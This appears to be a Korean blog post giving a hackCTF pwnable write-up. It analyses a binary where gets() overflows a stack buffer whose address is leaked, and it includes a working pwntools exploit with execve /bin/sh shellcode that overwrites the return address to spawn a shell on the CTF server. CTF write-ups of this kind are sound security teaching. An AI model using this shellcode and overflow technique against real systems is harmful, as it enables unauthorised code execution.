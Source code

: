 ```yaml
---
layout: post
title:  "[hackCTF]내 버퍼가 흘러넘친다!!"
date:   2020-02-11
---
```


hackCTF pwnable 여섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(bss_start, 0LL, 2, 0LL);
  puts(&s); // s에 저장된 문자열을 출력한다
  printf("buf: %p\n", &v4); // v4의 주소를 출력한다
  gets(&v4); // stdin으로부터 문자열을 입력 받아 v4에 저장한다
  return 0;
}
```
<br>

정리해보자.<br><br>

***

| ret |            |
|:---:|:----------:|
| sfp |   (8byte)  |
| rbp |            |
| ... |            |
|  v4 | rbp-0x6D30 |

***
<br>

![0602](https://drive.google.com/uc?id=1IKf6P8UjdQnO0iOExB2Syd8_4ONi70Ve)  
NX 보호기법이 미적용되었으므로 stack에서 쉘코드를 실행시킬 수 있다. 따라서 gets로 v4에 쉘코드를 저장하고 ret을 v4의 시작주소로 덮으면 된다.  
![0601](https://drive.google.com/uc?id=1OvYOaP63MM0QloMKUdMvTyWAvb09Ncue)  
이 때 ASLR 보호기법이 적용되어 파일을 실행할 때마다 주소가 변하므로 처음 v4의 주소를 출력하면 그 주소를 받아 payload를 완성해야 한다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil("buf: ") # "buf: "까지 받는다

buf = int(p.recv(14), 16) # 14바이트를 받고 16진수로 변환하여 buf에 저장

payload = "\x90"*0x9 # nop으로 일부 채우기

payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05" # 쉘코드

payload += "\x90"*(0x6D30 - 0x20 + 0x8) # sfp까지 nop으로 채우기

payload += p64(buf) # 앞에서 받은 v4의 주소(buf) 추가

p.sendline(payload)

p.interactive()
```

## 결과
![0603](https://drive.google.com/uc?id=1YE2LhE9ENLXGPJCWHLNMffHGCiNN3kcr)

